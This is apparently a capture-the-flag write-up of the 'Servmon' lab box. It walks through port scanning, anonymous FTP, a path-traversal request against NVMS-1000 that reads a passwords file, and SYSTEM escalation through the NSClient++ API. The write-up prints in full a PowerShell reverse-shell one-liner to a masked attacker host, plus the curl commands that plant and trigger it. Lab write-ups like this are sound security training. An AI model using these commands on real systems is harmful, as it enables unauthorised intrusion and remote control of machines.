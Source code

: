 # Servmon Writeup

## Enumeration
```
OS: Windows
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3333/tcp open  dec-notes
5666/tcp open  nrpe
6699/tcp open  napster
8443/tcp open  https-alt
```
Right off the bat 21, 22, and 80 are worth immediate investigation, those are usually the way to get our foot in the door. 
Ports 135, 139, and 445 are standard windows fare. SMB is usually worth checking out immediately, but I don't believe its our way in.
Ports 6699, 3333, 5666 are weird enough to check out later.
## Information Gathering
Port 21 is a great place to start. Nmap shows us that anon logins are allowed, which means we have free reign to poke around
for information.
```
21/tcp   open  ftp            Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
```

Logging in shows a top-level directory called `Users` with two sub-directories, Nadine and Nathan.
Both have a txt file in them. Nathan's says "I left your Passwords.txt file on your Desktop".
So that's something to keep in mind once we have read access to Nathan's files.

Nadine's txt file shows a TODO list:

1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint

So from this we've gathered some important info:
* Nathan has passwords in plaintext on his desktop
* The password for NVMS is not default
* There IS still public access for NVMS (port 80)
* There are some secret files that are supposed to be in sharepoint

Let's move on to poking around the website on port 80.
## Initial Compromise
```
80/tcp   open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
```
Visiting the website shows that it's a login portal for "NVMS-1000"
Looking that up shows it's a monitoring client for video surveillence over IP.
Poking around the page reveals a path traversal (CVE-2019-20085). Combining that with the
knowledge we got from the FTP server, we can view the passwords.txt file on Nathan's desktop:
```
import requests
addr = f'http://10.10.10.184:80'
x = requests.get(f'{addr}/../../../../../../../../../../../../Users/nathan/Desktop/passwords.txt'
print(x.status_code)
>>> 200
```
Success! That nets us some passwords to try against SSH.

I wrote a quick python script to try the passwords and bingo, and just like that we've got shell access and have secured the user flag.
Now, let's do some privilege escalation.
#
# Privilege Escalation and Post-Exploitation
#
Let's revisit nagios, on port 5666. I initially thought that would be our initial compromise, so I looked over some CVEs.
There's quite a few ranging from SQLi to RCE, but what we're focused on is RCE or LPE. 

While I was looking I found an exploit chain written (poorly) in python2. I took the liberty of making it not suck ass 
and updated it to python3. I slightly tweaked it to make it standalone, and used pyinstaller to package it. I used netcat to
set up a listener on the windows box and send the executable from my VM.

After a few unsuccessful tries, I started looking around the files related to NRPE/Nagios when I found the NSClient++ folder in program files. I realized that I had read access to the files, and that the .ini file contained the password. I started looking for ways to use NSClient to elevate to either local admin or NT AUTHORITY/SYSTEM, and found out you can ran scripts in the context of the NSClient service, aka SYSTEM. I also realized, by reading the [NSClient Manual](https://docs.nsclient.org/) that you can issue commands using their API at the `https://localhost:8443/api/v1/` endpoint.

I used a simple reverse shell as a payload by first adding the script:
```
curl -i -k -X PUT -u admin https://localhost:8443/api/v1/scripts/ext/exp.bat --data-binary 'powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('xxxx',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```
and used NSClient's [scheduler](https://docs.nsclient.org/reference/generic/Scheduler/) to execute:
```
curl -i -k -u admin https://localhost:8443/api/v1/scripts/ext/scripts/exp.bat
curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/exp/commands/execute?time=1m
```
After a minute, I got a connection on the netcat listener on my VM. From there, we had permissions to view C:\Administrator\Desktop and get the root flag.

